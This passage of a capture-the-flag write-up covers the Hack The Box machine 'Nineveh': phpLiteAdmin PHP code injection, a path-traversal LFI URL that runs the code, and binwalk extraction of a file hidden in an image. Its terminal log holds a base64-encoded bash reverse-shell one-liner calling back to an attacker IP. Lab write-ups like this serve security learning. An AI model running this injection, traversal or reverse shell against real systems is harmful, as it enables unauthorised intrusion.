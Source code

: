 We login into the phpliteadmin and find out that it is a webserver to manage a sqlite database.
![[Pasted image 20210701210942.png]]


# Initial FootHold as www-data
According, To the exploit we have to create a database named something.php and then creating a table and a single field with a text in default value as php code we want to execute. Then, We would be able to visit the file and execute the php file.

![[Pasted image 20210701211444.png]]
![[Pasted image 20210701211633.png]]
![[Pasted image 20210701211930.png]]
Now, The file with reverse shell contents has been created successfully.
![[Pasted image 20210701212012.png]]

Therefore, We could use the LFI from the `http://10.10.10.43/department` to execute the php code and Hence, get a reverse shell back.

We visit the `http://10.10.10.43/department/manage.php?notes=/files/ninevehNotes/../../../../../var/tmp/magisk.php` and see that our browser hangs which is a very good sign that we have recieved a reverse shell.

And, We get a shell back as `www-data`
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh]
└──╼ # shelter rev bash
Gtk-Message: 21:27:41.863: Failed to load module "colorreload-gtk-module"
Gtk-Message: 21:27:41.864: Failed to load module "window-decorations-gtk-module"
[+] Copied reverseshell payload echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Lzg4ODggMD4mMQ== |base64 -d|bash
[+] Starting up Shell Handler...
Listening on 0.0.0.0 8888
Connection received on 10.10.10.43 45146
bash: cannot set terminal process group (1409): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User Escalation to amrois
This part of the box sucks as it is a stegnography.
![[Pasted image 20210701231006.png]]

We transfer the image to our box and run `binwalk -e` to find out that it has a directory which has a ssh private key inside.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh/images]
└──╼ # binwalk -e nineveh.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)

┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh/images]
└──╼ # cd _nineveh.png.extracted/
┌─[Magisk@Xyan1d3]─[10.10.14.5]─[~/htb/nineveh/images/_nineveh.png.extracted]
└──╼ # ls -l
total 2844
```